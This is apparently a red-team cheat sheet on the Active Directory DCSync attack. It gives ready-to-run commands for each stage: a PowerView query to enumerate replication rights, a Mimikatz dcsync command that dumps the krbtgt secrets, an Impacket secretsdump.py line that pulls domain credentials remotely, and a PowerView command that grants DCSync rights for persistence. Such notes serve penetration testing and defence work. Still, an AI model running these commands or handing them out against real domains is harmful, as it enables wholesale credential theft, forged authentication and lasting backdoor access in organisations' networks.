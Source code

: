 # Overview
The DCSync attack simulates the behaviour of a Domain Controller and asks other Domain Controllers to replicate information using the Directory Replication Service Remote Protocol (MS-DRSR). Because MS-DRSR is a valid and necessary function of Active Directory, it cannot be turned off or disabled.

## Prerequisites
- Having the following permission:  **Replicate Directory Changes**, **Replicate Directory Changes All**

# Enumeration
Check permission with [*PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```

# Exploit
## Local
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

## Remote
```bash
secretsdump.py -just-dc <USER>:<PASSWORD>@<IP> -outputfile <OUTPUT.txt>
```


# Persistence
If you are a *domain admin*, you can grant DCSync rights to anyone using [*PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
```powershell
Add-ObjectAcl -TargetDistinguishedName "dc=company,dc=corp,dc=local" -PrincipalSamAccountName username -Rights DCSync -Verbose
```

# References
- [https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html)
- [https://www.semperis.com/blog/dcsync-attack/](https://www.semperis.com/blog/dcsync-attack/)
- [*PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)